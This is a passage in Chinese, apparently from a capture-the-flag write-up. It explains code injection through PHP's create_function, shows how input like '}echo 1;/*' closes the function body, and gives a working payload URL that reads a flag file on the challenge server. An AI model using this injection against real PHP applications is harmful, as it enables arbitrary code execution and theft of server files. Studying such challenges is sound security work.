   如果可控点在第二个参数——"function_code"，也就是"create_function"的"$code"，则闭合语句为"}echo 1;/*"：

  ```php
  #此时执行的代码如下:
  function __lambda_func(){ 
  }echo 1;/*
  }
  ```
   回到题目，可控点在第二个参数，所以payload就构造为
   ```php
  http://51.158.75.42:8087/?action=\create_function&arg=}echo%20file_get_contents("/var/www/flag_h0w2execute_arb1trary_c0de");/*
   ```


